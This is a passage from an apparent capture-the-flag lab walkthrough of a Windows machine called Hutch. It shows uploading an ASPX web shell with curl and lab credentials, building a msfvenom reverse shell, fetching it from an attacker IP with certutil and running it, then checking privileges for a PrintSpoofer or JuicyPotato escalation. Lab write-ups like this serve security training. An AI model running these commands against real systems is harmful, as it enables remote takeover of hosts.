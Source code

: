 ![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/10.png)


http://192.168.191.122/cmdasp.aspx


![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/11.png)


><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">Note: Instead of cadaver we could have also used:
curl -T '/home/kali/shell.aspx' 'http://192.168.191.122/' -u fmcsorley:CrabSharkJellyfish192</span>
<br>

![gif1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/notes.gif)

Let's generate a rev shell using msfvenom and upload it using certutil.


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.158 LPORT=1234 -f exe > shell1.exe</span>
</div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">certutil.exe -urlcache -split -f http://192.168.45.158:5985/shell1.exe c:\users\public\shell.exe</span>
</div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">c:\users\public\shell.exe</span>
</div>
<br>


![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/12.png)



## Privilege Escalation



<div style="background-color: #1e2124; padding: 10px;">
c:\windows\system32\inetsrv><span style="color:red">whoami /priv</span>
</div>
<br>


![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Hutch/13.png)


><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">SeImpersonatePrivilege is enabled which means we can use printspoofer or Juicypotato (if printspoofer fails)
